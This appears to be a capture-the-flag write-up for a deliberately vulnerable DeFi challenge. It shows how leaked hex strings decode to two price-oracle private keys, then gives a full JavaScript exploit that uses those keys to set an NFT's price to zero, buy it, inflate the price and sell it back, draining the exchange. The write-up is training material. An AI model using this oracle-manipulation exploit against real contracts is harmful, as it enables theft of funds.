

# Level 7 : Compromised

To begin this level the first thing to do is understand the data given here 



This data is in fact 2 private keys from supposed Trusted_source of the oracle on the contracts. When we understand and get the private keys (hex ⇒ base64 ⇒ utf8) the logic is pretty simple.

The 4 conditions to resolve the challenge here are 

- Balance of exchange must be 0
- Attacker (us) must have stole 9990 ETH
- Attacker does not own an NFT
- NFT price should be 99 ETH

All functions to do that are available on the contract, the logic is like that : 

1. Create 2 wallets initialized with private keys we got
2. Modify the price of an NFT to be 0
3. Buy 1 NFT for 1 wei (to be greather than 0)
4. Modify the price of an NFT to be 9990
5. Sell NFT to the exchange
6. Modify the price of an NFT to be again 99 ETH

No need to write a contract this time , everything can be done using javascript : 

```jsx
const tokenSymbol = await this.nftToken.symbol()
const leakedInformation =[
  '4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35',
  '4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34'
]
const leakToPrivateKey = (leak) => {
  const base64 = Buffer.from(leak.split(' ').join(''), 'hex').toString('utf8')
  const hexKey = Buffer.from(base64,'base64').toString('utf8')
  return hexKey
}
const privateKey1 = leakToPrivateKey(leakedInformation[0]);
console.log(privateKey1)
const privateKey2 = leakToPrivateKey(leakedInformation[1])
console.log(privateKey2)
// Modify Price
const oracle1 = new ethers.Wallet(privateKey1, ethers.provider)
const oracle2 = new ethers.Wallet(privateKey2, ethers.provider)
console.log('Check NFT Price before : ',String(await this.oracle.getMedianPrice(tokenSymbol)).slice(0,-18))
await this.oracle.connect(oracle1).postPrice(tokenSymbol,0)
await this.oracle.connect(oracle2).postPrice(tokenSymbol,0)
console.log('Check NFT Price when buying: ',String(await this.oracle.getMedianPrice(tokenSymbol)))
await this.exchange.connect(attacker).buyOne({value: 1}) // Buy for 1 Wei
// Set Price to 9990 before selling
await this.oracle.connect(oracle1).postPrice(tokenSymbol,EXCHANGE_INITIAL_ETH_BALANCE)
await this.oracle.connect(oracle2).postPrice(tokenSymbol,EXCHANGE_INITIAL_ETH_BALANCE)
console.log('Check NFT Price when selling : ',String(await this.oracle.getMedianPrice(tokenSymbol)).slice(0,-18))
// Approve exchange to sell NFT at max price
await this.nftToken.connect(attacker).approve(this.exchange.address,0)
await this.exchange.connect(attacker).sellOne(0)
// Last condition to validate the challenge
await this.oracle.connect(oracle1).postPrice(tokenSymbol,INITIAL_NFT_PRICE)
await this.oracle.connect(oracle2).postPrice(tokenSymbol,INITIAL_NFT_PRICE)
console.log('Check NFT price after attack : ',String(await this.oracle.getMedianPrice(tokenSymbol)).slice(0,-18))
```

## Key Security Takeaways

- Don’t expose your private keys 😇